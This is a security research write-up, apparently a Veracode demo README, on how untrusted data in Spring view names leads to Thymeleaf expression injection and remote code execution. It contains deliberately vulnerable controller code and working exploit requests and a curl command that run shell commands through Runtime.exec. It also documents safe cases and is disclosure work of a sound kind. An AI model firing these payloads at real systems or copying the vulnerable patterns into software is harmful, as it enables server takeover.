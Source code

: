 #### Spring View Manipulation Vulnerability

In this article, we explain how dangerous an unrestricted view name manipulation in Spring Framework could be. Before doing so, let's look at the simplest Spring application that uses Thymeleaf as a templating engine:

Structure:<br>
<img src="./structure.png" width="380px"><br>

[HelloController.java](src/main/java/com/veracode/research/HelloController.java):
```java
@Controller
public class HelloController {

    @GetMapping("/")
    public String index(Model model) {
        model.addAttribute("message", "happy birthday");
        return "welcome";
    }
}
```

Due to the use of `@Controller` and `@GetMapping("/")` annotations, this method will be called for every HTTP GET request for the root url ('/'). It does not have any parameters and returns a static string "welcome".
Spring framework interprets "welcome" as a View name, and tries to find a file "resources/templates/welcome.html" located in the application resources. If it finds it, it renders the view from the template file and returns to the user.
If the Thymeleaf view engine is in use (which is the most popular for Spring), the template may look like this:

[welcome.html](src/main/resources/templates/welcome.html):
```html
<!DOCTYPE HTML>
<html lang="en" xmlns:th="http://www.thymeleaf.org">
<div th:fragment="header">
    <h3>Spring Boot Web Thymeleaf Example</h3>
</div>
<div th:fragment="main">
    <span th:text="'Hello, ' + ${message}"></span>
</div>
</html>
```

Thymeleaf engine also support [file layouts](https://www.thymeleaf.org/doc/articles/layouts.html). For example, you can specify a fragment in the template by using `<div th:fragment="main">` and then request only this fragment from the view:
```java
@GetMapping("/main")
public String fragment() {
    return "welcome :: main";
}
```
Thymeleaf is intelligent enough to return only the 'main' div from the welcome view, not the whole document.

From a security perspective, there may be a situation when a template name or a fragment are concatenated with untrusted data. For example, with a request parameter:
```java
@GetMapping("/path")
public String path(@RequestParam String lang) {
    return "user/" + lang + "/welcome"; //template path is tainted
}

@GetMapping("/fragment")
public String fragment(@RequestParam String section) {
    return "welcome :: " + section; //fragment is tainted
}
```

The first case may contain a potential path traversal vulnerability, but a user is limited to the 'templates' folder on the server and cannot view any files outside it. The obvious exploitation approach would be to try to find a separate file upload and create a new template, but that's a different issue.

**Luckily for bad guys**, before loading the template from the filesystem, [Spring ThymeleafView](https://github.com/thymeleaf/thymeleaf-spring/blob/74c4203bd5a2935ef5e571791c7f286e628b6c31/thymeleaf-spring3/src/main/java/org/thymeleaf/spring3/view/ThymeleafView.java) class parses the template name as an expression:
```java
try {
   // By parsing it as a standard expression, we might profit from the expression cache
   fragmentExpression = (FragmentExpression) parser.parseExpression(context, "~{" + viewTemplateName + "}");
}
```
So, the aforementioned controllers may be exploited not by path traversal, but by expression language injection:
#### Exploit for /path (should be url-encoded)
```http
GET /path?lang=__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x HTTP/1.1
```
<img src="./exploit.png"><br>

In this exploit we use the power of [expression preprocessing](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/): by surrounding the expression with `__${` and `}__::.x` we can make sure it's executed by thymeleaf no matter what prefixes or suffixes are.

**To summarize**, whenever untrusted data comes to a view name returned from the controller, it could lead to expression language injection and therefore to Remote Code Execution.

#### Even more magic
In the previous examples, controllers return strings, explicitly telling Spring what view name to use, but that's not always the case. As [described in the documentation](https://docs.spring.io/spring/docs/current/spring-framework-reference/web.html#mvc-ann-return-types), for some return types such as `void`, `java.util.Map` or `org.springframework.ui.Model`:
> the view name implicitly determined through a RequestToViewNameTranslator

It means that a controller like this:
```java
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    log.info("Retrieving " + document);
}
```
may look absolutely innocent at first glance, it does almost nothing, but since Spring does not know what View name to use, **it takes it from the request URI**. Specifically, DefaultRequestToViewNameTranslator does the following:

```java
/**
 * Translates the request URI of the incoming {@link HttpServletRequest}
 * into the view name based on the configured parameters.
 * @see org.springframework.web.util.UrlPathHelper#getLookupPathForRequest
 * @see #transformPath
 */
@Override
public String getViewName(HttpServletRequest request) {
    String lookupPath = this.urlPathHelper.getLookupPathForRequest(request, HandlerMapping.LOOKUP_PATH);
    return (this.prefix + transformPath(lookupPath) + this.suffix);
}
```

So it also become vulnerable as the user controlled data (URI) comes directly to view name and resolved as expression.

#### Exploit for /doc (should be url-encoded)
```http
GET /doc/__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x HTTP/1.1
```

#### Safe case: ResponseBody

There are also some cases when a controller returns a used-controlled value, but they are not vulnerable to view name manipulation. For example, when the controller is annotated with @ResponseBody:

```java
@GetMapping("/safe/fragment")
@ResponseBody
public String safeFragment(@RequestParam String section) {
    return "welcome :: " + section; //FP, as @ResponseBody annotation tells Spring to process the return values as body, instead of view name
}
```

In this case, Spring Framework does not interpret it as a view name, but just returns this string in HTTP Response. The same applies to @RestController on a class, as internally it inherits @ResponseBody.

#### Safe case: A redirect

```java
@GetMapping("/safe/redirect")
public String redirect(@RequestParam String url) {
    return "redirect:" + url; //CWE-601, as we can control the hostname in redirect
}
```

When the view name is prepended by `"redirect:"` the logic is also different. In this case, Spring does not use [Spring ThymeleafView](https://github.com/thymeleaf/thymeleaf-spring/blob/74c4203bd5a2935ef5e571791c7f286e628b6c31/thymeleaf-spring3/src/main/java/org/thymeleaf/spring3/view/ThymeleafView.java) anymore but a [RedirectView](https://github.com/spring-projects/spring-framework/blob/master/spring-webmvc/src/main/java/org/springframework/web/servlet/view/RedirectView.java), which does not perform expression evaluation. This example still has an open redirect vulnerability, but it is certainly not as dangerous as RCE via expression evaluation.

#### Safe case: Response is already processed

```java
@GetMapping("/safe/doc/{document}")
public void getDocument(@PathVariable String document, HttpServletResponse response) {
    log.info("Retrieving " + document); //FP
}
```

This case is very similar to one of the previous vulnerable examples, but since the controller has *HttpServletResponse* in parameters, Spring considers that it's already processed the HTTP Response, so the view name resolution just does not happen. This check exists in the *ServletResponseMethodArgumentResolver* class.

#### Conclusion
Spring is a framework with a bit of magic, it allows developers to write less code but sometimes this magic turns black. It's important to understand situations when user controlled data goes to sensitive variables (such as view names) and prevent them accordingly. Stay safe.

#### Test locally

Java 8+ and Maven required

```bash
cd spring-view-manipulation
mvn spring-boot:run
curl 'localhost:8090/path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22id%22).getInputStream()).next()%7d__::.x'
```

#### Credits
This project was co-authored by [Michael Stepankin](https://twitter.com/artsploit) and [Giuseppe Trovato](https://twitter.com/otavorteppesuig) at Veracode<br>
Authors would like to thank [Aleksei Tiurin](https://www.acunetix.com/blog/author/alekseitiurin/) from Acunetix for the excellent research on [SSTI vulnerabilities in Thymeleaf](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)